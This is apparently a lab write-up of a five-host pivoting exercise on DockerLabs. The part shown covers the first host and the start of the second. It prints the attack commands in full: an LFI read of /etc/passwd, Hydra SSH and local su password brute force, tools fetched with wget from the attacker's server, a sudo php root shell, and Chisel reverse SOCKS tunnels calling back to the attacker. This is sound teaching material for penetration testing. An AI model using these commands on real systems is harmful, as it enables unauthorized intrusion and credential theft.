# Big Pivoting — DockerLabs

**Platform:** DockerLabs  
**Lab:** Big Pivoting (five-host chain)  
**Date:** 2026-10-22  
**Author:** blazk  
**Scope:** Isolated lab environment. Every action documented here was performed against intentionally vulnerable containers. Do not reuse these techniques outside an authorized engagement.

---

## Executive summary

This lab is a five-host pivoting exercise. The attacker starts with direct access only to `10.10.10.2` and finishes with `root` on the fifth host, `50.50.50.3`. Each of the first four compromised machines is dual-homed and acts as a router into the next private network.

| Host | Addresses | Initial access | Privilege escalation | Pivot role |
|---|---|---|---|---|
| Host 1 | `10.10.10.2` / `20.20.20.2` | LFI in `/shop` → SSH as `manchi` → local password brute force for `seller` | `sudo /usr/bin/php` | Entry pivot into `20.20.20.0/24` |
| Host 2 | `20.20.20.3` / `30.30.30.2` | Grafana path traversal + anonymous FTP + credentials in `/tmp/pass.txt` | Writable `/opt/maintenance.py` executed through `sudo` | Pivot into `30.30.30.0/24` |
| Host 3 | `30.30.30.3` / `40.40.40.2` | Username leaked in `secret.php` + Hydra over SSH | `sudo vim` | Pivot into `40.40.40.0/24` |
| Host 4 | `40.40.40.3` / `50.50.50.2` | Unrestricted PHP file upload | `sudo /usr/bin/env` | Pivot into `50.50.50.0/24` |
| Host 5 | `50.50.50.3` | Forgotten webshell parameter | Credentials stored in `/tmp/.secret.txt` + `su root` | Final host |

**Key techniques:** local file inclusion, SSH password attacks, local account brute force, sudo GTFOBins abuse, Grafana directory traversal,  proxied web fuzzing, Chisel reverse SOCKS, static `socat` relays, proxychains, PHP webshells, and URL-encoded reverse shells.

**Result:** full administrative control of all five hosts.

---

## 1. Lab deployment

The lab is distributed as five Docker images inside `.tar` files plus an `auto_deploy.sh` script. Each archive represents one machine in the chain. The script loads the images, creates the required Docker networks, assigns the static addresses used throughout this report, and starts the containers.

```bash
bash auto_deploy.sh inclusion.tar move.tar trust.tar upload.tar whereismywebshell.tar
```

The deployment script wires the containers into the network chain used by the lab: `10.10.10.0/24`, `20.20.20.0/24`, `30.30.30.0/24`, `40.40.40.0/24`, and `50.50.50.0/24`.



Once the containers are running, the first check is simple ICMP reachability to the entry point:

```bash
ping -c 1 10.10.10.2
```

A successful ICMP reply confirms that the attacker can route to the first container and that the target is alive. ICMP is only a quick sanity check; later hosts are enumerated with TCP probes because ICMP is often filtered or cannot be carried through a SOCKS proxy.



---

## 2. Network model and pivot strategy

The lab is built as a chain of dual-homed hosts. The attacker can reach only the first network. Every subsequent network is reachable only from the host immediately before it.



```text
[Attacker 192.168.122.50]
          |
          | 10.10.10.0/24
          v
[Host 1  10.10.10.2 | 20.20.20.2]
                    |
                    | 20.20.20.0/24
                    v
[Host 2  20.20.20.3 | 30.30.30.2]
                    |
                    | 30.30.30.0/24
                    v
[Host 3  30.30.30.3 | 40.40.40.2]
                    |
                    | 40.40.40.0/24
                    v
[Host 4  40.40.40.3 | 50.50.50.2]
                    |
                    | 50.50.50.0/24
                    v
[Host 5  50.50.50.3]
```

The pivot strategy has two parts:

1. **Chisel reverse SOCKS.** A Chisel client on a compromised host connects back to a Chisel server on the attacker. The server exposes a SOCKS5 proxy locally on the attacker. Tools such as `nmap`, `ssh`, `scp`, `hydra`, and Firefox can then send TCP traffic into the target network.
2. **`socat` relays.** Deeper hosts cannot reach the attacker directly. Each already-compromised dual-homed host runs a static `socat` listener that forwards TCP traffic one hop closer to the attacker. The Chisel client on the next host connects to that relay, and the traffic is passed through the chain until it reaches the Chisel server.

The relay chain used by the end of the lab is:

```text
Host 4 chisel client
   |  TCP 40.40.40.2:1010
   v
Host 3 socat :1010  --> 30.30.30.2:1234
   v
Host 2 socat :1234  --> 20.20.20.2:9999
   v
Host 1 socat :9999  --> 192.168.122.50:4444
   v
Attacker chisel server :4444
   |
   +--> reverse SOCKS listener 127.0.0.1:9919
```

This is why `socat` uses `fork`: a SOCKS proxy opens many short-lived TCP connections, and each one needs its own relay process. Without `fork`, the relay would accept one connection and then stop serving new ones.

---

## 3. Host 1 — entry point (`10.10.10.2`)

### 3.1 Port scanning

The first scan enumerates all TCP ports on the entry host.

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.2 -oG allPorts_machine_1
```

Flag breakdown:

- `-p-` scans all 65,535 TCP ports instead of only the top 1,000.
- `--open` shows only ports that are open, reducing noise.
- `-sS` performs a TCP SYN scan, which is fast and stealthier than a full connect scan. It requires root privileges because it crafts raw packets.
- `--min-rate 5000` requests at least 5,000 packets per second, which is appropriate for a local lab.
- `-n` disables DNS resolution, avoiding unnecessary delays.
- `-Pn` skips host discovery and treats the target as online, which is useful when ICMP is filtered.
- `-vvv` increases verbosity so progress is visible.
- `-oG` writes grepable output to `allPorts_machine_1`.



The scan shows TCP/22 (SSH) and TCP/80 (HTTP) open.

### 3.2 Web enumeration

Browsing to `http://10.10.10.2/` returns the default Apache page, so the next step is content discovery.

```bash
ffuf -u http://10.10.10.2/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c
```

- `-u` sets the target URL. `FUZZ` is the placeholder replaced by each word from the wordlist.
- `-w` selects the wordlist.
- `-c` enables colored output, which makes status codes and sizes easier to read.



The fuzzing run finds a directory named `shop`.



### 3.3 Local file inclusion (LFI)

Visiting `/shop/` produces a PHP warning related to a file operation. This is a strong indicator that the application is passing user-controlled input to an include or file-read function.



The request is inspected in Burp Suite to understand the parameter and the server response.



Removing the trailing slash changes the constructed path. The error suggests that the application concatenates a directory prefix with the value of a parameter, roughly:

```php
include("shop/" . $_GET['archivo']);
```

If the separator is wrong, the resulting path becomes something like `shopfilename.php` instead of `shop/filename.php`. Supplying a known file such as `index.php` does not produce an error, which confirms that `index.php` exists inside the include directory and that the parameter is being used as a filename.





The `archivo` parameter is then used to read arbitrary files. A typical request is:

```text
http://10.10.10.2/shop/index.php?archivo=/etc/passwd
```

If the include prefix is enforced, the equivalent traversal is:

```text
http://10.10.10.2/shop/index.php?archivo=../../../../etc/passwd
```

The LFI succeeds and `/etc/passwd` reveals two interesting local users:

- `manchi`
- `seller`



### 3.4 SSH access as `manchi`

With a valid username, the next step is password authentication against SSH.

```bash
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.2
```

- `-l manchi` tests a single username.
- `-P` supplies the password wordlist.
- `ssh://` selects Hydra's SSH module.

Hydra recovers a valid password for `manchi`, and the session is opened with:

```bash
ssh manchi@10.10.10.2
```



### 3.5 Local enumeration and failed kernel exploits

After login, the first pass is standard local enumeration: identity, kernel version, sudo rights, and network interfaces.

```bash
id
uname -a
sudo -l
ip -brief address
ip route
```

- `id` shows the current user, UID, GID, and group memberships.
- `uname -a` prints the kernel version and architecture, which is needed to evaluate kernel exploits.
- `sudo -l` lists the commands the current user may execute through sudo and whether a password is required.
- `ip -brief address` shows the configured interfaces and addresses.
- `ip route` shows the routing table, which is the fastest way to identify additional reachable networks.



A kernel exploit is identified, but it does not work against this host. LinPEAS is then executed to enumerate SUID binaries, capabilities, cron jobs, writable files, credentials, and possible kernel vulnerabilities.





LinPEAS also reports a kernel CVE, but the exploit fails again. This is common in containerized labs: the container shares the host kernel, may lack build tools or kernel headers, may have a read-only filesystem, or may be confined by seccomp, AppArmor, or a reduced capability set. The reliable path is configuration-based privilege escalation, not kernel exploitation.

The network enumeration is more valuable. The host has a second interface on `20.20.20.0/24`, which confirms that it can be used as a pivot.

```bash
hostname -I
```



### 3.6 Lateral movement to `seller`

The account `seller` exists, but SSH authentication fails. Hydra tests only the SSH daemon; if `seller` is restricted by `AllowUsers`, `DenyUsers`, a `nologin` shell, or a PAM rule, Hydra will never succeed even if the password is valid. However, `su` uses PAM and may still accept the password locally.

A small brute-force wrapper is transferred from the attacker's HTTP server and executed from the `manchi` session. The script tries each candidate password against the local `seller` account.

```bash
wget http://192.168.122.50/bruteforce.sh
wget http://192.168.122.50/rockyou.txt
bash bruteforce.sh seller rockyou.txt
```



The password for `seller` is found.



The account is then accessed locally:

```bash
su - seller
```



This is an important distinction: SSH brute force and local `su` brute force are not equivalent. A service can block remote logins while the account remains usable for local privilege transitions.

### 3.7 Privilege escalation to root via `sudo php`

Sudo permissions are checked for the new user:

```bash
sudo -l
```

`sudo -l` lists the allowed commands and whether a password is required. The output shows that `seller` can execute `/usr/bin/php` as root.



PHP is a scripting interpreter, so it can execute arbitrary system commands. The following one-liner starts an interactive shell as root:

```bash
sudo /usr/bin/php -r 'system("/bin/sh -i");'
```

- `-r` tells PHP to execute the code passed on the command line.
- `system()` runs the command and inherits the standard streams, so the resulting shell is interactive.
- Because `php` itself runs as root through `sudo`, the child shell also runs as root.



A TTY stabilization attempt was made, but the session did not echo typed characters correctly. Rather than spending time on shell cosmetics, the unstable root shell was kept because it was sufficient for file transfer and command execution.



### 3.8 Pivot 1 — reverse SOCKS to the attacker (`1080`)

The first pivot uses Chisel in reverse mode. The binary is served from the attacker over HTTP and downloaded by the victim.

On the attacker, a simple HTTP server is started in the directory that contains `chisel`:

```bash
python3 -m http.server 80
```

This allows the victim to download the binary over the only network path that is currently reachable. On Host 1:

```bash
wget http://192.168.122.50/chisel
chmod +x chisel
./chisel --version
```



The attacker starts the Chisel server:

```bash
chisel server --reverse -p 4444
```

- `server` starts the server side.
- `--reverse` allows clients to request reverse tunnels, which is required when the client cannot accept inbound connections.
- `-p 4444` sets the listening port.



Host 1 connects back and requests a reverse SOCKS proxy:

```bash
./chisel client 192.168.122.50:4444 R:socks
```

`R:socks` asks the Chisel server to open a SOCKS5 listener on the attacker at `127.0.0.1:1080`. Traffic sent to that port is forwarded over the Chisel connection and exits from Host 1 into the `20.20.20.0/24` network.



The tunnel is established successfully.



Proxychains is configured to use the new SOCKS proxy:

```bash
echo "socks5 127.0.0.1 1080" | sudo tee -a /etc/proxychains4.conf
```

`tee -a` is used instead of `sudo echo ... >>` because shell redirection is performed by the unprivileged shell before `sudo` runs. `tee` receives the text and appends it with root privileges.

At this point, the pivot is:



---

## 4. Host 2 — Grafana (`20.20.20.3`)

### 4.1 Host discovery and port scan

ICMP and ARP are not carried over SOCKS5, so a normal `nmap -sn` is ineffective. The custom `proxydiscover.py` script performs TCP connect probes through the proxy instead.

```bash
proxychains -q python3 proxydiscover.py -net 20.20.20.0/24
```

`-q` suppresses the proxychains banner so the script output is readable. The scan identifies `20.20.20.3`.



The full TCP port scan is performed with a connect scan:

```bash
proxychains nmap -sT -Pn -p- --open -v -n 20.20.20.3 -oG allPorts_machine_2.txt 2>/dev/null
```

- `-sT` uses a full TCP connect scan. This is mandatory through a SOCKS proxy because raw SYN packets cannot be proxied.
- `-Pn` skips host discovery.
- `-p-` scans all ports.
- `--open` reports only open ports.
- `-v` enables verbose output.
- `-n` disables DNS resolution.
- `-oG` writes grepable output.
- `2>/dev/null` suppresses proxychains diagnostic messages on stderr.



The scan reveals FTP, SSH, HTTP, and an additional service on TCP/3000. Nmap labels TCP/3000 as `ppp` because that is the IANA service name associated with the port; service detection later identifies it as Grafana.

Firefox is configured to use the SOCKS5 proxy through FoxyProxy so web services on the internal network can be inspected visually.



The visible services are HTTP, FTP, SSH, and the Grafana port.



Fuzzing the HTTP service does not produce anything useful, so TCP/3000 is inspected directly.

